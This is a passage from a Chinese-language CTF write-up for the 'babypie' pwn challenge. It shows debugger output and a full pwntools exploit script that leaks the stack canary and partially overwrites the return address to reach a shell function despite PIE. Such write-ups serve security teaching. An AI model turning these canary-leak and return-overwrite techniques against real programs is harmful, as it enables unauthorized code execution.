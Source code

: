 ```shell
 RSP  0x7fffffffdcb8 —▸ 0x555555554a3e ◂— push   rbp
 RIP  0x555555554a3d ◂— ret    
───────────────────────────────────[ DISASM ]───────────────────────────────────
   0x555555554a23    mov    eax, 0
   0x555555554a28    mov    rcx, qword ptr [rbp - 8]
   0x555555554a2c    xor    rcx, qword ptr fs:[0x28]
   0x555555554a35    je     0x555555554a3c
    ↓
   0x555555554a3c    leave  
```

所以在第二次输入 name 时溢出覆盖 rip 最后一个字节：

```python
payload = 'a'*(0x30-0x8)
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += '\x3e'
```

#### 利用程序

```python
from pwn import *

context.log_level = 'debug'

p = process("./babypie")
elf = ELF("./babypie")

getshell = 0xA3E

payload = 'a'*(0x30-0x8+1)

p.recvuntil("Name:\n")
p.send(payload)
p.recvuntil('a'*(0x30-0x8+1))
canary = u64(p.recv(7).rjust(8,'\x00'))
log.info("canary:"+hex(canary))

payload = 'a'*(0x30-0x8)
payload += p64(canary)
payload += p64(0xdeadbeef)
payload += '\x3e'
p.recvuntil(":\n")
gdb.attach(p)
p.send(payload)

p.interactive()
```



 